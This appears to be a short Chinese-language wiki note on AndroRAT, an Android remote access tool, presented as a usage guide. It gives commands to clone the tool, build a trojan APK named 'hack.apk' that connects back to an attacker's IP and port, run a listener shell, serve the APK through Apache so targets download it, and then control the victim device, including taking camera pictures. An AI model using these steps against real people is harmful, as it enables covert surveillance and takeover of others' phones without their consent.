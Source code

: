 ```yaml
---
title: 01.AndroRAT
description: android远程管理工具
published: 1
date: 2023-06-09T10:17:19.264Z
tags: web tools
editor: markdown
dateCreated: 2023-04-19T17:49:03.242Z
---
```


<center>AndroRAT</center>



[toc]





### AndroRAT

> 一个简单的使用套接字的android远程管理工具 [github](https://github.com/karma9874/AndroRat)



```shell
# 下载
git clone https://github.com/karma9874/AndroRAT.git
cd AndroRAT
pip install -r requirements.txt
```



### 1. 使用

```shell
# 生成apk  
python3 androRAT.py --build -i 192.168.1.10 -p 8888 -o hack.apk

# 监控端
python3 
python3 androRAT.py --shell -i 0.0.0.0 -p 8888

# 开启apche2 让用户可以网站下载apk
sudo systemctl start apache2.service
# 安装打开 提示连接到客户了

help # 查看帮助文档
# 相机
acmList   takepic 0
```

